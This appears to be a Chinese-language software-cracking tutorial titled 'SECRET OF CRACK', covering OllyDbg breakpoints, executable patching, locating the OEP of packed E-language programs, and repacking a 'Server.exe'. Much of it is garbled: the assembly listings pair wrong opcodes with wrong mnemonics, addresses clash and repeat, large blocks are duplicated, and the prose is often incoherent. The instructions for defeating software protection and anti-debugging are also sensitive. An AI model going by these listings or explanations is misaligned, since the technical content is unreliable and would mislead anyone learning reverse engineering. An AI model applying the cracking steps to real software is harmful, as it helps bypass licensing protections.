00403870: 8B79D8FF mov eax, dword ptr [ebp-24]
00403874: 51 push esi
00403875: 53 push edi
00403876: 8B45F0 mov eax, dword ptr [ebp-8]
0040387A: 89C1
0040387B: B0A00000 call dword ptr [esp-40]
00403880: 83CB dbx
00403882: 7D12 jmp. short 00403929(jne)
00403895: 89D5D8FF mov eax, dword ptr [ebp-24]跳转到
00403899: 89E5FEFF mov eax, dword ptr [ebp-A4] (EAX-A4)
0040389E: 8B459CFF mov eax, dword ptr [ebp-19C]赋值成功，没有错误了;Unicode 0x7863637372537374 dword ptr [esp-144] (EAX-144)
004038A3: 8B4598FF mov eax, dword ptr [ebp-52]
004038A7: 50 push eax
004038A8: 52 push edi
004038AB: FF15 C85FEFF mov eax, dword ptr [ebp-A1]
004038AF: 8B41A8 mov eax, dword ptr [ebp-100] (EAX-100)
004038B7: FF15 68010000 call dword ptr [esp-A0]
<--MSVBVM60 vVarTerm();结束，准备下循环 (EAX-100)
004038C4: 8973D8 mov esi, eax
004038C8: FF15 14040000 call dword ptr [esp-5C]
<--MSVBVM60 vVarTerm()
004038CD: 8978FF mov edi, dword ptr [ebp-24]
004038D1: 89D0 mov eax, 0x00000000错误码已经OVER，所以指针回退
004038D6: B8BA0000 mov eax, BA 第一次参数是在这里
004038E0: B9000000 mov ecx, 0x0000000错误码已经OVER，所以指针回退
004038E5: 89DA esp, ecx
004038E6: 89D3 34FFFFFF mov dword ptr [esp-4], eax
004038E9: 89A0 44FFFFFF mov dword ptr [esp-8], eax
004038EF: 89A6 54FFFFFF mov dword ptr [esp-C], eax
004038F2: 89D5 CDFFFFFF mov dword ptr [ebp-10] (EAX-10)
004038F6: 89D4 5CFFFFFF mov dword ptr [ebp-16], eax
004038FA: 89C5 25FFFFFF mov dword ptr [ebp-34], eax
004038FD: 89E5 4CFFFFFF mov dword ptr [ebp-18], eax (EAX-18)
00403901: 7C85FEFF mov dword ptr [ebp-20], eax (EAX-20)
00403904: 7C85FEFF mov dword ptr [ebp-24], eax
00403909: FF15 01000000 call dword ptr [esp-4]
<--MSVBVM60 vObjSet()
00403912: 22FFFFFEFF mov dword ptr [esp-28], EBD
00403916: 89D5 39FFFFFF mov dword ptr [ebp-34] (EAX-34)
0040391A: 89D4 64FFFFFF mov dword ptr [esp-3C], eax
0040391E: 89C1 84FFFFFF mov dword ptr [ebp-40], eax
00403922: 51 push edi
00403923: 150 push esi
00403924: 89D5 5CFFFFFF mov dword ptr [ebp-44], eax
00403928: 6A 00 push 0
0040392A: 51 push esi
0040392B: FF15 15010000 call dword ptr [esp-40]
<--MSVBVM60 rtmNextLoop(); (应该是 vNextLoop)
0040392F: 89C2 25FFFFFF mov dword ptr [esp-48], eax
00403933: 89D5 3CFFFFFF mov dword ptr [ebp-54], eax (EAX-54)
00403937: 51 push edi
00403938: 52 push esi
00403939: 50 push 0
0040393A: 64 00 push 0
0040393C: FF15 14010000 call dword ptr [esp-40]
<--MSVBVM60 vVarTermNext();
00403940: B3C 14 add esp, 14
00403944: 31 xor edi, edi
```

已经通过这篇文章教给你了如何获取更多的技巧，我们通过 Windows XP功能的具体，其实与技巧的方法相结合了，各种函数的实现方法相同，但尝试方法有很多，但终会有适合你的。


面板，如图2所示。


图2

在这里我们可以指定断点（Breakpoint）时寄存器和内存的条件，设置`EIP`范围等将带来极大的便利。对于OlyDB来说，我们不需要去忽略这些外部，可以通过OlyDB来设置断点的默认值，通过OlyDB我们来修改它。条件“`TRUE`”的默认值足够大的，我们可以将任何断点设置为默认值并在调试程序中运行，下次会有这个设置。例如，“`Command`, `R2`, `RB` 和 `CST` 不匹配条件”，这可能是指定的寄存器或内存是可以访问的。对于OlyDB的调试寄存器功能已经足够完善了。对于“`TRUE`”条件寄存器，只需在命令行中输入


图3

这个条件点设置是不相同的，由于我们在调试时首先确定断点位置，调试时可能会在我们设置的条件能够满足到断点在这个位置。我注意到OlyDB内部提供了许多方便的调试功能，可以

### Assumed by expression

| | |
|---|---|
| Boolean value (TRUE/FALSE) | |
| Identifier of register group | |
| Error code (as caused by `GetLastError`) | |
| Handle of window | |
| Message code (`WM_XXX`) | |
| Virtual key code (`VK_XXX`) | |


图4

```
Packed-pair of 16-bit words.

Packed RGB code

Value ASKR

Pointer to UNICODE

Pointer to MSQ structure (UNICODE)

Pointer to RECT struct
```


这些就是我们设置条件时可以直接在微软窗口定义的参数，而不需要在16进制中转换了。

### 如何设置调试参数？

不需要参数，只会在调试开始时添加调试参数的，OlyDB也为我们准备了这一部分功能，要把这非常重要的一点，点击`Debug->Arguments`后，OlyDB会弹出一个对话让你输入命令行参数，点击OK后就会显示You have the command line arguments。如果你没有任何参数，那么你必须再次调试程序，这只需要点击

### 如何在发生新的断点？

随着调试技术的进步，越来越多的加载条件开始连接调试器运行，比早期的PE更加灵活，`ldr.dllLoadProcessDLL`加载时就可以进行反调试并在初始化过程中进行反调试了。OlyDB将不会被捕获在异常的执行过程中，为了进行调试，我们需要让OlyDB在捕获到异常的初始化时，在异常的获取之前停止。你可以按下`F5+ALL`设置断点，在设置选项中勾选`new module DLL`，我们就可以在加载一个DLL的程序时命中断点，将Loader主程序挂接到OlyDB

### 如何设置消息断点？

SoftICE具有非常强大的消息断点功能，用于调试Windows下的调试程序时，在OlyDB中，我们同样可以使用消息断点，比如在处理一个比较敏感的程序时，当遇到我们需要的消息断点时，我们可以通过OlyDB自带的命令行来演示如何设置消息断点。

### STREET OF CRACK

OlyDbg获取`Winrime.exe`并让它运行起来，由于接下来的OlyDbg调试了获取的句柄，这个OlyDbg的该用户通过通讯获取本地句柄来重置整个过程。这里我们将使用另一个工具-Visual Studio的Spy++来调试获取的过程，只需要Spy++从主菜单选择`Search-Find`，找到感兴趣的字符串后，将其标记为调试器的输出框，此时Spy++就可以捕捉到调试的信息，点击OK来到Windows1，如图5所示。


图5

双击“属性”一行，我们就获取了关于这个感兴趣的窗口详细信息如图6所示。这里我们将看到这些是Window Process，接下来我们就可以点击并定位到OlyDbg


图6

的反汇编代码。按下`Ctrl+G`我们找到了句柄地址`11002100`进入代码，然后按下`Shift+F2`设置断点，点击程序运行运行到程序入口时，调试就会停在这里

### 可执行文件修改和加壳

修改可执行文件并不是什么难事。如果报错，由于涉及对可执行文件的代码修改，我们可以通过我们来尝试它。

| Name | New | Condition | Address |
| :--- | :--- | :--- | :--- |
| | | | |

它是自建的调试器对其进行文件修改，必须注意修改感兴趣的字符串会破坏本地结构（`RVA`）为文件移动（`FA`），在Olydbg调试中，只需要修改这些部分即可执行修改，调试器到内存到文件中的内容，并容易调试，大大增加了逆向分析的难度。若要修改汇编，我们只需要找到汇编指令，在Olydbg调试器中找到地址并替换相同的字节码。使用`Alt+Step`可以取消当前的断点。需要保存的操作，只需点击修改后的代码，在菜单选择`Copy To Executable`。

### 控制流的修改

在破解程序的过程中，我们会在目标程序中加入一些代码进行 Patch Code，这种技术常用于加密程序的加壳注入、混淆等。在整个程序的调试器中，我们可以看到

```
JMP XXXX

YYYYYY:

YYYYYY:执行到跳转的

JMP XXXX
```

我们可以如何将跳转的`JMP`改出来，之后在Olydbg的反汇编窗口找到该指令，然后在汇编窗口选择`New origin`，之后就可以执行跳转到程序的位置。我们有三种方法，第一个是不使用`JMP`，而是用`call`跳转到另一个地址，使用`jump`把代码跳转到相同的地址然后再跳转到想要执行的位置，让程序从此处执行：Olydbg加密程序的调试功能已经足够，能够应对挑战。对于带壳的应用程序，Olydbg是不选的，在破解程序时Olydbg的功能足够了。对于加壳的程序，只有那些高手。www.cracker.com 2007

### SECRET OF CRACK

易语言国内开发的可视化工具和使用易语言的人越来越多，易语言编写也越来越酷。大家都知道，先找到易语言汇编的`OEP`、解密易语言程序调试有几点，按照易语言汇编的方法复现后，易语言的调试是不可能的，所有带壳分析，本文教你如何到达易语言独立壳程序的`OEP`。适合易语言程序员、逆向学习者。要求：汇编知识、易语言基础

### 易语言插件——反调试

可能你不知道破解易语言调试的方式和方法，接下来的步骤是：

- 独立壳：如果是易语言调试，程序时会将程序打包成exe文件，其中包含数据在文中显示，所以用PE壳调试C++ 6.0。
- 单独壳：如果是易语言调试，单独exe文件生成属性修改，必须在程序运行前停止，用PE壳调试C++ 6.0。
- 易语言启动过程：为了平台运行，将程序打包到exe文件的`code`段中，调试时找到连接器，对`code`段进行修改成为本体，就可以调试。

### 准备工作

使用工具：`OLLYdbg_1_10_second_cong_fix.exe`, v0.94。

【第一步】

1. 用调试器加载Microsoft C++ 6.0，需要下载到`krnl.dll`（易语言支持库），是非独立的壳。
2. 找到：


| 人口 | 0000000 |
| --- | --- |
| 文件名 | 00000000 |
| 版本 | 0.00.0.00 |
| 语言 | 00000000 |
| 签名 | 0000000 |

Microsoft C++ 6.0 添加参数并运行调试


2. 用OLLYdbg主程序，按`F9`运行，OLLYDBG

### 【调试分析】

1.快速定位到`OEP`

```
00400000 E8 00 00 00 00  CALL 000

00400005 55          PUSH EBP

00400006 EB F5          JMP Exit

0040000C          ExitProcess:

0040000D 64 A1 00  MOV EBP,ESP

0040000F 55          PUSH EBP

00400010 BC          PUSH EAX

00400011 8B 45 28  MOV EAX,[EBP-28]

00400015 8B 45 30  MOV EAX,[EBP-30]

00400019 8B 45 34  MOV EAX,[EBP-34]

0040001D 8B 45 38  MOV EAX,[EBP-38]

00400021 8B 45 3C  MOV EAX,[EBP-3C]

00400025 8B 45 40  MOV EAX,[EBP-40]

00400029 75 67  JNZ 00400096

0040002E 83 C0  INC EAX

0040002F 75 4B  JNZ 00400080

00400032 83 C0  INC EAX

00400033 75 49  JNZ 0040007E

00400036 83 C0  INC EAX

00400037 75 41  JNZ 00400078

0040003A 83 C0  INC EAX

0040003B 75 39  JNZ 00400074

0040003E 83 C0  INC EAX

0040003F 75 33  JNZ 0040006C

00400042 83 C0  INC EAX

00400043 75 2B  JNZ 00400068

00400046 83 C0  INC EAX

00400047 75 25  JNZ 00400060

0040004A 83 C0  INC EAX

0040004B 75 19  JNZ 00400054

004000EE 83 C0  INC EAX

0040004F 75 13  JNZ 00400056

00400052 83 C0  INC EAX

00400053 75 0D  JNZ 00400060

00400056 83 C0  INC EAX

00400057 75 07  JNZ 0040005E

0040005A 83 C0  INC EAX

0040005B 75 01  JNZ 0040005E

0040005E 83 C0  INC EAX

0040005F E9 05  JMP -64
```


找到String：

```
00400000 E8 00 00 00 00  CALL 000

00400005 55          PUSH EBP

00400006 EB F5          JMP Exit

0040000C          ExitProcess:

0040000D 64 A1 00  MOV EBP,ESP

0040000F 55          PUSH EBP

00400010 BC          PUSH EAX

00400011 8B 45 28  MOV EAX,[EBP-28]

00400015 8B 45 30  MOV EAX,[EBP-30]

00400019 8B 45 34  MOV EAX,[EBP-34]

0040001D 8B 45 38  MOV EAX,[EBP-38]

00400021 8B 45 3C  MOV EAX,[EBP-3C]

00400025 8B 45 40  MOV EAX,[EBP-40]

00400029 75 67  JNZ 00400096

0040002E 83 C0  INC EAX

0040002F 75 4B  JNZ 00400080

00400032 83 C0  INC EAX

00400033 75 49  JNZ 0040007E

00400036 83 C0  INC EAX

00400037 75 41  JNZ 00400078

0040003A 83 C0  INC EAX

0040003B 75 39  JNZ 00400074

0040003E 83 C0  INC EAX

0040003F 75 33  JNZ 0040006C

00400042 83 C0  INC EAX

00400043 75 2B  JNZ 00400068

00400046 83 C0  INC EAX

00400047 75 25  JNZ 00400060

0040004A 83 C0  INC EAX

0040004B 75 19  JNZ 00400054

004000EE 83 C0  INC EAX

0040004F 75 13  JNZ 00400056

00400052 83 C0  INC EAX

00400053 75 0D  JNZ 00400060

00400056 83 C0  INC EAX

00400057 75 07  JNZ 0040005E

0040005A 83 C0  INC EAX

0040005B 75 01  JNZ 0040005E

0040005E 83 C0  INC EAX

0040005F E9 05  JMP -64
```

```
004000A0 68 00 00 00 00  PUSH 0

004000A5 55          PUSH EBP

004000A6 8B 45 04  MOV EAX,[EBP-4]

004000A9 89 7D F6  MOV [EBP-10],EAX

004000AE 55          PUSH EBP

004000AF 8B 45 08  MOV EAX,[EBP-8]

004000B2 89 7D F2  MOV [EBP-14],EAX

004000BC 55          PUSH EBP

004000BD 8B 45 0C  MOV EAX,[EBP-12]

004000C0 89 7D E8  MOV [EBP-24],EAX

004000C4 55          PUSH EBP

004000C5 8B 45 10  MOV EAX,[EBP-16]

004000C8 89 7D DC  MOV [EBP-36],EAX

004000CD 55          PUSH EBP

004000CE 8B 45 14  MOV EAX,[EBP-20]

004000D1 89 7D D4  MOV [EBP-44],EAX

004000D5 55          PUSH EBP

004000D6 8B 45 18  MOV EAX,[EBP-24]

004000D9 89 7D C8  MOV [EBP-56],EAX

004000DD 55          PUSH EBP

004000DE 8B 45 1C  MOV EAX,[EBP-28]

004000E1 89 7DB0  MOV [EBP-80],EAX

004000E5 55          PUSH EBP

004000E6 8B 45 20  MOV EAX,[EBP-32]

004000E9 89 7DA8  MOV [EBP-104],EAX

004000ED 55          PUSH EBP

004000EE 8B 45 24  MOV EAX,[EBP-36]

004000F1 89 7DA4  MOV [EBP-156],EAX

004000F6 55          PUSH EBP

004000F7 8B 45 28  MOV EAX,[EBP-40]

004000FA 89 7D90  MOV [EBP-120],EAX

00400104 55          PUSH EBP

00400105 8B 45 2C  MOV EAX,[EBP-44]

00400108 89 7D8C  MOV [EBP-132],EAX

0040010C 55          PUSH EBP

0040010D 8B 45 30  MOV EAX,[EBP-48]

00400110 89 7D84  MOV [EBP-140],EAX

00400114 55          PUSH EBP

00400115 8B 45 34  MOV EAX,[EBP-52]

00400118 89 7D7E  MOV [EBP-164],EAX

0040011C 55          PUSH EBP

0040011D 8B 45 38  MOV EAX,[EBP-56]

00400120 89 7D74  MOV [EBP-204],EAX

00400124 55          PUSH EBP

00400125 8B 45 3C  MOV EAX,[EBP-60]

00400128 89 7D6E  MOV [EBP-238],EAX

0040012C 55          PUSH EBP

0040012D 8B 45 40  MOV EAX,[EBP-64]

00400130 89 7D6A  MOV [EBP-266],EAX

00400134 55          PUSH EBP

00400135 8B 45 44  MOV EAX,[EBP-68]

00400138 89 7D62  MOV [EBP-258],EAX

0040013C 55          PUSH EBP

0040013D 8B 45 48  MOV EAX,[EBP-72]

00400140 89 7D5E  MOV [EBP-286],EAX

00400144 55          PUSH EBP

00400145 8B 45 4C  MOV EAX,[EBP-76]

00400148 89 7D5A  MOV [EBP-274],EAX

0040014C 55          PUSH EBP

0040014D 8B 45 50  MOV EAX,[EBP-80]

00400150 89 7D52  MOV [EBP-302],EAX

00400154 55          PUSH EBP

00400155 8B 45 54  MOV EAX,[EBP-84]

00400158 89 7D4C  MOV [EBP-316],EAX

0040015C 55          PUSH EBP

0040015D 8B 45 58  MOV EAX,[EBP-88]

00400160 89 7D48  MOV [EBP-332],EAX

00400164 55          PUSH EBP

00400165 8B 45 5C  MOV EAX,[EBP-92]

00400168 89 7D40  MOV [EBP-352],EAX

0040016C 55          PUSH EBP

0040016D 8B 45 60  MOV EAX,[EBP-96]

00400170 89 7D3C  MOV [EBP-364],EAX

00400174 55          PUSH EBP

00400175 8B 45 64  MOV EAX,[EBP-100]

00400178 89 7D38  MOV [EBP-380],EAX

0040017C 55          PUSH EBP

0040017D 8B 45 68  MOV EAX,[EBP-104]

00400180 89 7D30  MOV [EBP-396],EAX

00400184 55          PUSH EBP
```


```text
00400185 8B 45 6C  MOV EAX,[EBP-108]
00400188 89 7D28  MOV [EBP-404],EAX
0040018C 55          PUSH EBP
0040018D 8B 45 70  MOV EAX,[EBP-112]
00400190 89 7D20  MOV [EBP-416],EAX
00400194 55          PUSH EBP
00400195 8B 45 74  MOV EAX,[EBP-116]
00400198 89 7D18  MOV [EBP-424],EAX
0040019C 55          PUSH EBP
0040019D 8B 45 78  MOV EAX,[EBP-120]
004001A0 89 7D10  MOV [EBP-432],EAX
004001A4 55          PUSH EBP
004001A5 8B 45 7C  MOV EAX,[EBP-124]
004001A8 89 7D08  MOV [EBP-440],EAX
004001AC 55          PUSH EBP
004001AD 8B 45 80  MOV EAX,[EBP-128]
004001B0 89 7D00  MOV [EBP-448],EAX
004001B4 55          PUSH EBP
004001B5 8B 45 84  MOV EAX,[EBP-132]
004001B8 89 7DF8  MOV [EBP-456],EAX
004001BC 55          PUSH EBP
004001BD 8B 45 88  MOV EAX,[EBP-136]
004001C0 89 7DF0  MOV [EBP-464],EAX
004001C4 55          PUSH EBP
004001C5 8B 45 8C  MOV EAX,[EBP-140]
004001C8 89 7EE8  MOV [EBP-472],EAX
004001CC 55          PUSH EBP
004001CD 8B 45 90  MOV EAX,[EBP-144]
004001D0 89 7DE0  MOV [EBP-480],EAX
004001D4 55          PUSH EBP
004001D5 8B 45 94  MOV EAX,[EBP-148]
004001D8 89 7DD8  MOV [EBP-488],EAX
004001DC 55          PUSH EBP
004001DD 8B 45 98  MOV EAX,[EBP-152]
004001E0 89 7D0  MOV [EBP-496],EAX
004001E4 55          PUSH EBP
004001E5 8B 45 9C  MOV EAX,[EBP-156]
004001E8 89 7D08  MOV [EBP-504],EAX
004001EC 55          PUSH EBP
004001ED 8B 45 A0  MOV EAX,[EBP-160]
004001F0 89 7D00  MOV [EBP-512],EAX
```

# SECRET OF CRACK

```text
0004010C 8D 4FFFFFFF LEAX EAX,DWORD PTR
TR PTR [ESP+8]
0004010D 50 PUSH EAX /push$
0004010E 68 19000200 PUSH 2019
; Access = RET
0004010F 60 PUSH EAX ; Reserved = =
00040110 68 38010400 PUSH EAX,dword:00040138
; Subway = "Gravity.exe"
00040114 68 01000000 PUSH 00000001
00040115 ; Key = CURRENT_USER
00040116 55000000 CALL <_RegOpenKeyEx,kernel32>
RegOpenKeyEx = EAX
0004011A 68 28010400 PUSH EAX,dword:00040128
; Process = "NewProcess"
0004011C 50 PUSH EAX ; Module
0004011D 55000000 CALL <_CreateProcess,kernel32>
GetProcess = EAX
00040120 76 BC EAX
00040121 74 29 JZ SHORT 00040152
00040125 68 3A010400 PUSH EAX,dword:0004016A
00040129 FF D7 CALL eax
0004012A 81 C3 EAX
0004012D 74 13 JZ SHORT 00040152
00040131 68 3B010400 PUSH EAX,dword:0004016B
00040135 81 4A 76 76DD88 ADD DWORD PTR [ESP-8];
[ECX+450]
002837A 6A 85 08 MOV EAX,DWORD PTR [ESP]
0002837D 82 30 MOV EAX,dword:[ESP+8]
[ESP+8]
00028380 80 01 AND EAX,1
00028383 79 EB TEST EAX
00028385 75 10 JZ SHORT call,0002839C
0002838E 87 8D MOV EAX,DWORD PTR [ESP]
[ESP]
00028391 59 F8 PUSH EAX
00028393 68 F0FB0200 CALL call,kernel32.VirtualFreeW
```


从上地址找到`00040111`的`CALL EAX`将程序以这种方式启动的，我们可以使用`000297B4`如下：

```text
000297B4 50 PUSH ESP
00297B5 8B MOV EBP,EAX
000297B8 85 MOV EAX,DWORD PTR [ESP+8]
[ESP+8]
002979C 91 0 CALL EAX,dword:kernel32.ReadProcessMemory
002979E 88 05 FFFFFF PUSH EBP
000297A3 74 5D JZ SHORT 000297B2
00297A7 50 POP ESP
000297AD 54 C0 CLD
RET 4
```

通过`000297A3`下方可以看到这里有一个`CALL 00028CF4`，`JMP`跳转进去，跳转到`00028CF4`后，如下：

```text
00028CF5 55 PUSH EBP ;这里要传递函数参数
00028C56 8B MOV EBP,EAX
00028C59 83 EC08 SUB ESP,8
00028C5E 55 PUSH EAX
00028C60 56 PUSH ESP
00028C63 59 PUSH EAX
00028C65 89 78 PUSH DWORD PTR [ESP-8];
EAX
00028C69 5D LEAVE CRET
00028C6B FF15 D2C3D010 CALL DWORD PTR [ESP-4];<kernel32.GetProcess,kernel32.GetProcess
00028C71 8B C8 MOV EAX,DWORD PTR [ESP]
[ESP-8];
```

用用`0002837B`处的`CALL EAX`启动程序，进程的过程和它的入口，通过这种方法，我们写了一个动态库，可以使用它`DLL`来让`0002YIBDYG`自动定位到“`OEP`”点，然后可以在调试中看到它了。

## 去除跳转函数

在调试器中找到非法的跳转点（`OEP`），在找到“`OEP`”后，对程序进行破解就简单了，只需修改该指令的返回值。
在`000297E6`下方点击`Ctrl+G`跳转到程序地址，`000297E0`如下：

```text
000297F0 FC CALL EAX ;这里需要使用参数
000297F2 63 EB3 DBI ;这里需要使用参数
000297F5 89 06 000000 PUSH 00000006
000297F9 89 78 PUSH EAX,dword:000297E6
00029803 03 MOV EAX,3
00029806 00 00 00 PUSH 0x0000000
0002980C 83 C4 04 ADD EAX,4
0002980E 59 F8 PUSH EAX
00029811 89 BC PUSH EAX,dword:000297E5
00029815 50 PUSH EAX
00029817 59 A2 CALL 0x000001E3
0002981A 8B MOV EBP,EAX
0002981E 00 00 00 PUSH 0x0000000
```

找到“`OEP`”点。用8步跟踪，得知执行`CALL 002550D5`之后，关闭重新加载后，汇码如下：

```text
002550D3 55 PUSH EBP
002550D4 48 EC
002550D5 5D MOV EBP,SP
002550D6 8B EAX,0
002550D7 8B 45 0C CALL 002552E6
002550D8 8B 45 0A CALL 002552E6
002550D9 8B 45 06 CALL 002552E6
002550DA 8B 45 00 CALL 002552E6
002550DB 75 -03 CALL 002552E6
002550DE E8 00 00 00 CALL 002552E6
002550E3 8B 45 14 CALL 002552E6
002550E6 8B 45 10 CALL 002552E6
002550E7 E8 00 00 00 CALL 002552E6
002550EC 75 -0A CALL 002552E6
002550F5 8B 45 08 CALL 002552E6
002550F8 8B 45 04 CALL 002552E6
002550FB 8B 45 02 CALL 002552E6
002550FE 75 -05 CALL 002552E6
002550FC E8 00 00 00 CALL 002552E6
00255103 8B 45 0C CALL 002552E6
00255106 8B 45 08 CALL 002552E6
00255109 8B 45 06 CALL 002552E6
0025510C 8B 45 04 CALL 002552E6
0025510F 75 -07 CALL 002552E6
00255113 E8 00 00 00 CALL 002552E6
00255118 8B 45 14 CALL 002552E6
0025511B 8B 45 10 CALL 002552E6
0025511E 8B 45 06 CALL 002552E6
00255121 8B 45 04 CALL 002552E6
00255124 8B 45 02 CALL 002552E6
00255127 75 -09 CALL 002552E6
0025512B E8 00 00 00 CALL 002552E6
00255130 8B 45 0C CALL 002552E6
00255133 8B 45 08 CALL 002552E6
00255136 8B 45 06 CALL 002552E6
00255139 8B 45 04 CALL 002552E6
0025513C 8B 45 02 CALL 002552E6
0025513F 75 -0B CALL 002552E6
00255143 E8 00 00 00 00 CALL 002552E6
00255148 8B 45 14 CALL 002552E6
0025514B 8B 45 10 CALL 002552E6
0025514E 8B 45 06 CALL 002552E6
00255151 8B 45 04 CALL 002552E6
00255154 8B 45 02 CALL 002552E6
00255157 75 -0D CALL 002552E6
0025515B E8 00 00 00 CALL 002552E6
00255160 8B 45 0C CALL 002552E6
00255163 8B 45 08 CALL 002552E6
00255166 8B 45 06 CALL 002552E6
00255169 8B 45 04 CALL 002552E6
0025516C 8B 45 02 CALL 002552E6
0025516F 75 -0F CALL 002552E6
00255173 E8 00 00 00 CALL 002552E6
00255178 8B 45 14 CALL 002552E6
0025517B 8B 45 10 CALL 002552E6
0025517E 8B 45 06 CALL 002552E6
00255181 8B 45 04 CALL 002552E6
00255184 8B 45 02 CALL 002552E6
00255187 75 -11 CALL 002552E6
0025518B E8 00 00 00 CALL 002552E6
00255190 8B 45 0C CALL 002552E6
00255193 8B 45 08 CALL 002552E6
00255196 8B 45 06 CALL 002552E6
00255199 8B 45 04 CALL 002552E6
0025519C 8B 45 02 CALL 002552E6
0025519F 75 -13 CALL 002552E6
002551A3 E8 00 00 00 CALL 002552E6
002551A8 8B 45 14 CALL 002552E6
002551AB 8B 45 10 CALL 002552E6
002551AE 8B 45 06 CALL 002552E6
002551B1 8B 45 04 CALL 002552E6
002551B4 8B 45 02 CALL 002552E6
002551B7 75 -15 CALL 002552E6
002551BB E8 00 00 00 CALL 002552E6
002551C0 8B 45 0C CALL 002552E6
002551C3 8B 45 08 CALL 002552E6
002551C6 8B 45 06 CALL 002552E6
002551C9 8B 45 04 CALL 002552E6
002551CC 8B 45 02 CALL 002552E6
002551D0 75 -17 CALL 002552E6
002551D4 E8 00 00 00 CALL 002552E6
002551D9 8B 45 14 CALL 002552E6
002551DC 8B 45 10 CALL 002552E6
002551DF 8B 45 06 CALL 002552E6
002551E2 8B 45 04 CALL 002552E6
002551E5 8B 45 02 CALL 002552E6
002551E8 75 -19 CALL 002552E6
002551EC E8 00 00 00 CALL 002552E6
002551F1 8B 45 0C CALL 002552E6
002551F4 8B 45 08 CALL 002552E6
002551F7 8B 45 06 CALL 002552E6
002551FA 8B 45 04 CALL 002552E6
002551FD 8B 45 02 CALL 002552E6
00255200 75 -1B CALL 002552E6
00255204 E8 00 00 00 CALL 002552E6
00255209 8B 45 14 CALL 002552E6
0025520C 8B 45 10 CALL 002552E6
```


# SECRET OF CRACK

文件: `C:\Documents and Settings\Administrator\004A12B4.exe`

| 入口点 | 区域 | |
| :--- | :--- | :--- |
| 文件名 | `004A12B4` | |
| 标题 | 属性, 0x99 | |
| 运行调试器 | 子进程 | |
| Berlin Walshi 6-O-T.0 | | |

往该区域，截取一个地址“`004A2247`”00 DB 00，从该行汇码从它的地址开始，再加入一行运行到“`004A1E50=6A PUSH 00 P`”地址，`JMP 004A1E50`，在这里就可以“选择”修改时使用调试器“可见”在文件中定位位置。

第 3 节

- 多线程调试(D) 选项(O) 查看(V) 退出(X)
- 停止在程序(F5) 汇编(F8) 调试器(F7)

特征将对我们修改了，你的程序到底就不会被修改，这样大家要把它自动跳转到这里，这样做会有什么后果呢？先用朋友的方法来修改它，点击修改“程序”，上这里就放一个：111,111,111,111，如同第 2 节。

| 地址 | 汇编 | |
| :--- | :--- | :--- |
| `004A12B4` | `55 8B EC` | |
| `004A12B7` | `8B E5` | |
| `004A12B9` | `8B F5` | |
| `004A12BD` | `83 EC 05` | |
| `004A12C1` | `E8 00 00 00 00` | |
| `004A12C6` | `5D` | |
| `004A12C7` | `59` | |
| `004A12C8` | `C3` | |
| ... | ... | ... |

| 地址 | 汇编 | |
| :--- | :--- | :--- |
| `004A12B4` | `55 8B EC` | |
| `004A12B7` | `8B E5` | |
| `004A12B9` | `8B F5` | |
| `004A12BD` | `83 EC 05` | |
| `004A12C1` | `E8 00 00 00 00` | |
| `004A12C6` | `5D` | |
| `004A12C7` | `59` | |
| `004A12C8` | `C3` | |

这个怎么样？看来不能运行，我们用 CSServer 来加载程序，打开我们的文件马衣激活登录 CSServer 之后，找到这里。只在这里设置跳转地址：火光标的地址是 100，执行后如图所示（图 4）。


调试器状态：汇编指令：`004A12B4` 调试器状态：运行中 运行 111,111,111,111
上堆栈：
寄存器：
连接状态：
数据窗口：2008-02-27 13:11:01


并不是“直接”它了，“我们用服务器来生成之后修改，改用 CSServer 之后生成 Cache 里面，就可以直接生成了。如果想要再用一个压缩壳，使用修改过的壳效果是不太好。

找到了这个节点后，用 CSServer 来生成程序，是用服务器的方法来生成，CSServer 让生成的壳是可以在平台上运行的了。

```
004A12E4 = 55 PUSH EB
004A12E6 = 8B MOV EBP
004A12E9 = 8B MOV ECX,4
004A12EE = 6A 00 PUSH
004A12F2 = 6A 00 PUSH
004A12F7 = DEC EC
004A12F9 = 75 JMP SHORT:004A12E4
004A1301 = 55 PUSH EDI
004A1303 = 53 PUSH EAX
004A1305 = 56 PUSH ESI
004A1307 = 59 PUSH EBP
004A1309 = 55 PUSH EDI
004A130B = BBB 1A 10 00 00 MOV EAX,10A
004A1310 = E8 -CF5 Call CSServer:004A13B6
```

将这里代码复制到笔记本里，这样可以它们运行到：

```
004A12E4 = 55 PUSH EB
004A12E6 = 8B MOV EBP
004A12E9 = 8B MOV ECX,4
```

| 地址 | 汇编 | R | L | S | D |
| :--- | :--- | :--- | :--- | :--- | :--- |
| `004A12E4` | `55` | | | | |
| `004A12E6` | `8B` | | | | |
| `004A12E9` | `8B` | | | | |
| `004A12EE` | `6A` | | | | |
| `004A12F2` | `6A` | | | | |
| `004A12F7` | `75` | | | | |
| `004A1301` | `55` | | | | |
| `004A1303` | `53` | | | | |
| `004A1305` | `56` | | | | |
| `004A1307` | `59` | | | | |
| `004A1309` | `55` | | | | |
| `004A130B` | `BBB` | | | | |
| `004A1310` | `E8` | | | | |

图 5：记住这个地址“`004C0000`”之后，再用 Olbg 进入 CSServer 之后，程序中的地址就在这里了。再跳转 `JMP 004A1E50=75`，这一行就可以。接下来用 PE编辑器入口，把修改后的文件放在 `CSServer_2`，这里入口地址为“`004C0000`”之后，它不在了，这里就要用 `dbg` 进入 `CSServer_2`，程序中的入口：

www.hacker.com | 软件破解教程精版

# SECRET OF CRACK

```
00402C09 > PUSH EBP //入参数
00402C0A > BBBC EBP
00402C0B > 8B 000000 MOV [EBP],ESP
00402C0D > 75 33FF JMP 00402A50
00402C10 > 85DD ADD_BYTE_BY_EBP
00402C14 > 83 ADD_BYTE_BY_EBP
```

不用，我们用头部，`Server.exe` 压缩后为270 KB (276,567字节)，这时就是理想的内存了，大家可以用来测试了。如上，配置信息是正确的，这是你的服务器端的，可以修正服务器端的头部作为 CSSERVER 的，这时我们要用头部了，我们可以利用这个不是理想的 `Server.exe`（没加壳）CSSERVER 在缓存中加载，再替换服务器，最后的头部就能让它存在了。

在我们希望的区域添加一行指令：

```
00402C38 > 8B 45 MOV EBP
00402C3A > 83 4C EC ADD ESP,EC
00402C3D > 8C 00 ADD ESP
00402C40 > 85C000204B MOV 0040204B
00402C45 > 50 PUSH ESP
00402C46 > 63 RET
00402C48 > E7 JMP 00402C67
00402C4A > EB FA PUSH EB
00402CCB > 77 JMP 00402C37 //入参数
```

我们现在来测试运行一下：`Server.exe`（没加壳），Reshacker 运行 `Server2.exe`，就使用 HACKER 的破解器 RC 数据中处理。我们在希望的区域添加一行指令，保存文件，用 PEID 修改为 `00402C09` 后。在测试时，可以使用 PEID 和基米运行，然而在这样的情况下，可能会被杀毁了。大家不要害怕，试用 OD。

